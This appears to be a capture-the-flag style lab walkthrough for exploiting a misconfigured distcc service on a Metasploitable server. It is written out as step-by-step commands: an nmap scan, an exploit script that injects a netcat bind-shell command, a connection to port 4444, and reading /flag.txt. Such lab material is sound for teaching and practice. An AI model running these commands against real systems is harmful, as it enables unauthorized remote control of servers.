

Identify a vulnerable service, research its exploitation method, and successfully execute a Bind Shell to gain control over a target server.
The machine initiating the connection will determine the type of Shell that is opened by a malicious cyber actor. Regardless of direction, one of the machines must be Listening for a connection, which is typically initiated by the Attacker on either their machine or the victim's machine.

A legacy server on the network is reportedly running a distributed compiler service (distcc). This service, if misconfigured, can allow remote users to execute arbitrary commands. Your goal is to exploit this service to force the target to open a "backdoor" listener that you can connect to.
The target is reachable at 172.30.0.30.
Ensure the scenario environment is running by executing the following command in your terminal:
./attacker_scenario_2/scenario.sh startScan the target to find the distcc service: nmap -Pn -sV -p3632 172.30.0.30
Look for port 3632. It should be running distcc v1.
In this scenario, we're going to explore the concept of a Bind Shell. Unlike a Reverse Shell (where the target calls you), a Bind Shell is when the target machine "binds" a shell to a specific port and waits for you to connect to it.
This is often used when:
We will use the Python script provided in this directory to send a malicious command to the distcc service. This command will tell the target to start a listener on port 4444 and attach a shell to it.
Execute the following in your terminal: python3 ./attacker_scenario_2/exploit_distcc.py 172.30.0.30 "nohup nc -l -p 4444 -e /bin/sh >/dev/null 2>&1 &"
Note: We use nohup and the & symbol to ensure the netcat listener continues to run in the background on the target even after our exploit script finishes its task.
Now that the target is listening, use netcat (nc) to connect to the "backdoor" you just opened:
nc -vn 172.30.0.30 4444If successful, you will have a command prompt.
You are now inside the Metasploitable server. Try running:
whoami
hostname
cat /flag.txtOnce you are done, run the following command to stop the scenario: ./attacker_scenario_2/scenario.sh stop